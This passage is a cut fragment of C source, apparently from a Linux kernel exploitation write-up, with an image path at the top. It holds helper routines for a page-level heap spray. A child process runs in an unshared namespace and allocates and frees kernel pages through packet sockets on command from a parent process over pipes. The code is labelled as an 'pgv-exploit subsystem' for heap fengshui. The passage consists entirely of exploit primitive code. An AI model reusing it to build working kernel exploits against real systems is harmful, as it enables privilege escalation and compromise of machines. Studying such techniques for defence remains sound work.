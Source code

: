 ```c
    return ret;
}

/* the parent process should call it to send command of freeing to child */
int free_page(int idx)
{
    struct pgv_page_request req = {
        .idx = idx,
        .cmd = CMD_FREE_PAGE,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(req));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    usleep(10000);

    return ret;
}

/* the child, handler for commands from the pipe */
void spray_cmd_handler(void)
{
    struct pgv_page_request req;
    int socket_fd[PGV_PAGE_NUM];
    int ret;

    /* create an isolate namespace*/
    unshare_setup();

    /* handler request */
    do {
        read(cmd_pipe_req[0], &req, sizeof(req));

        if (req.cmd == CMD_ALLOC_PAGE) {
            ret = create_socket_and_alloc_pages(req.size, req.nr);
            socket_fd[req.idx] = ret;
        } else if (req.cmd == CMD_FREE_PAGE) {
            ret = close(socket_fd[req.idx]);
        } else {
            printf("[x] invalid request: %d\n", req.cmd);
        }

        write(cmd_pipe_reply[1], &ret, sizeof(ret));
    } while (req.cmd != CMD_EXIT);
}

/* init pgv-exploit subsystem :) */
void prepare_pgv_system(void)
{
    /* pipe for pgv */
    pipe(cmd_pipe_req);
    pipe(cmd_pipe_reply);
    
    /* child process for pages spray */
    if (!fork()) {
        spray_cmd_handler();
    }
}

/**
 * IV - config for page-level heap spray and heap fengshui
 */
```